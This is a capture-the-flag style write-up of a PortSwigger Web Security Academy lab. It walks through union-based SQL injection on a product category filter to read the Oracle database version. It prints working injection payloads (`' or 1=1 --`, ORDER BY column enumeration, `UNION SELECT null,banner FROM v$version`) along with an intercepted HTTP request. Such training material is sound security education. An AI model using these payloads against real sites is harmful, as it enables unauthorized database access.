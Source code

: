 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Union Based)

---


## 🔍 Request interception

> SQL injection vulnerability is in the product category filter functionality.

> I intercept the request to select an arbitrary filter (for example `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output the version of the database I'm using.

> I use UNION-based SQL injection to extract data.

> **Note:** `UNION` is an operator in the `SQL` query language that combines the results of two `SELECT` queries with the same number of columns and compatible data types.
> This way I can extract data from an arbitrary table.

> I check that `SQL` injection is possible:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:

![sqli](./screenshots/sqli.png)

> Ok. I determine the number of columns in the table. This is important because `UNION` requires that both parts of the `SELECT` query return the same number of columns.
> I use the `ORDER BY` operator, which is used to sort the query results by one or more columns

> I use `Intruder` to iterate through the columns.
> I generate a text file with numbers from `1 to 10` (for example, no more than 10 columns):

```bash

seq 1 10 > numbers.txt

```

> I start iterating over columns:

![intruder](./screenshots/intruder.png)
![intruder_payload](./screenshots/Intruder_payload.png)

> At position `3` the server returns an error:

![intruder_error](./screenshots/intruder_error.png)

> This means that there are `2` columns in the table.

> To display the Oracle database version, I use the query `SELECT banner FROM v$version`.

> Since there are `2` columns in the table, I add a stopper in the form of `null` so that the number of columns in the two `SELECT` queries matches.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:

![db_version](./screenshots/db_version.png)

> Getting information about the Oracle Database version.

![solved_lab](./screenshots/solved_lab.png)
